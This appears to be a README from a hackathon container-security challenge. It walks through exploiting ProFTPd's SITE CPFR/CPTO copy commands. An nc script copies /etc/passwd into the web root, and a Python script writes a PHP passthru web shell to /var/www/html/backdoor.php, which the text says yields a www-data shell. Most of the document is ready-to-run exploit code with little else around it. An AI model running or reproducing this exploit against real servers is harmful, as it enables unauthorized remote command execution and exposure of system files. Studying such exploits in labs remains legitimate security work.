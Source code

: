 So, we've gained www-data shell.

[Video](https://youtu.be/_BsOYnXDpMk)

How do I run it?
---

1. Run docker container.

2. (optional) Start __cve-3306.sh__ script, which connects to 127.0.0.1:21 and copies passwd file to web interface:

```bash
#!/usr/bin/env bash

nc 127.0.0.1 21 <<EOF
SITE CPFR /etc/passwd
SITE CPTO /var/www/html/backdoor_info
EOF

```

3. Execute __backdoor_uploader.py__, which spawns web php shell:

```python
#!/usr/bin/env python

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 07.12.2021

import requests
import socket

host = "127.0.0.1"
port = 21
payload = "<?php echo passthru($_GET['c']); ?>"

# Connecting to ProFTPd

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.connect((host, port))
conn.recv(1024)

# Sending payload

conn.send(b"site cpfr /proc/self/cmdline\n")    # Getting cmdline proccess
conn.recv(1024)
conn.send((f"site cpto /tmp/.{payload}\n").encode("utf-8"))
conn.recv(1024)
conn.send((f"site cpfr /tmp/.{payload}\n").encode("utf-8"))
conn.recv(1024)
conn.send(("site cpto /var/www/html/backdoor.php").encode("utf-8"))

```
